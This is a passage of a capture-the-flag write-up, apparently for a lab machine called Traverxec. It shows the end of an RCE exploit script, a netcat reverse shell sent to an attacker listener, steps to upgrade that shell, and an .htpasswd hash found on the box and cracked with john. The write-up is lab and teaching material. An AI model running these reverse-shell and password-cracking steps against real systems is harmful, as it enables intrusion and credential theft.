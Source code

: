 ```bash
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)
    
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```

Using this exploit, I got a remote code execution
![placeholder](/writeup/assets/img/traverxec/rce.png "rce")
Used the exploit to get a reverse shell on the machine.
```bash
python exp.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.29 8888"
```

To get a better shell out of the nc reverse shell.
Type these commands on the reverse shell.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```
Enumerating the machine for potential priv esc vectors I reached to nhttpd.conf inside /var/nostromo/conf.
The .htpasswd file inside this directory contained creds
```text
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
Cracked the hash with john
```bash
root@cirius ~/tmp# john --wordlist=/root/Documents/Passwords/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:15 23.93% (ETA: 13:26:26) 0g/s 237113p/s 237113c/s 237113C/s sophy06..sophieden
Nowonly4me       (david)
1g 0:00:00:47 DONE (2020-05-24 13:26) 0.02088g/s 220936p/s 220936c/s 220936C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Now I have creds
***david:Nowonly4me***
